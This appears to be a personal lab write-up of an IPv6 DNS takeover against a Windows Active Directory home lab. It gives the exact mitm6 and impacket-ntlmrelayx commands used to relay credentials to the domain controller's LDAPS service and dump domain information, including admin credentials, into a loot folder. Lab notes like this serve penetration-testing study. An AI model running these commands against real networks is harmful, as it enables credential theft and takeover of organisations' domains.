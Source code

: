 ```yaml
---
created_date: 02 October 2023
updated_date: 02 October 2023
type: windows
url: https://www.youtube.com/watch?v=zzbIuslB58c
---
```

##### Machine Information
```
Gobots (Attacker)
===============

192.168.146.134/135 (ALLIANCE/HORDE Workstations)
===============
```
### High-Level Summary

The mitm6 server is going to listen for credentials, pass credentials to ldap `ldaps:192.168.146.132` in the ntlmrelay & spit out domain information including DOMAIN ADMIN CREDS into loot directory.

-------------
##### Initial Scanning

- Default scanning conducted in [[1 link-local_multicast_name_Resolution (LLMNR)]]

-------
###### Adding an IPv6 Address to Kali
```bash
[root💀/opt/mitm6/build/lib.linux-x86_64-2.7/mitm6] [192.168.146.129] [2023-10-02 16:57:48] 
 └─╼ # sysctl -w net.ipv6.conf.all.disable_ipv6=0
```
![[Pasted image 20231002165907.png]]
![[Pasted image 20231002165922.png]]
###### IPV6 DNS takeover
#mitm6
- Start mitm6 python server
- Need to wait for DNS every 30 minutes, if own environment can reset a WKSTN and it will pull dns all over again
The mitm6 server is going to listen for credentials, pass credentials to ldap `ldaps:192.168.146.132` in the ntlmrelay 
```bash
[root💀/opt/mitm6/build/lib.linux-x86_64-2.7/mitm6] [192.168.146.129] [2023-10-02 16:57:48] 
 └─╼ # python3 mitm6.py 
/opt/mitm6/build/lib.linux-x86_64-2.7/mitm6/mitm6.py:283: SyntaxWarning: "is" with a literal. Did you mean "=="?
```
While the HORDE-WKSTN was reseting started `impacket-ntlmrelayx`
#ntlmrelayx 
```bash
[root💀/usr/bin] [192.168.146.129] [2023-10-02 17:00:36] 
 └─╼ # ./impacket-ntlmrelayx -6 -t ldaps://192.168.146.132 -wh fakewpad.blizzard.local -l loot
- ldaps: Domain Controller IP address
- wh fakewpad
- -l = dumping loot into loot folder
```
Once the HORDE-WKSTN came back up the mitm6 server passed the ldap creds to the `ntlmrelayx` session with the creds and dumped information to the loot directory
![[Pasted image 20231002172644.png]]
Location of loot directory
#loot
![[Pasted image 20231002172824.png]]
Ran `firefox domain_users_by_group.html` and got Domain credentials via domain info.
![[Pasted image 20231002172935.png]]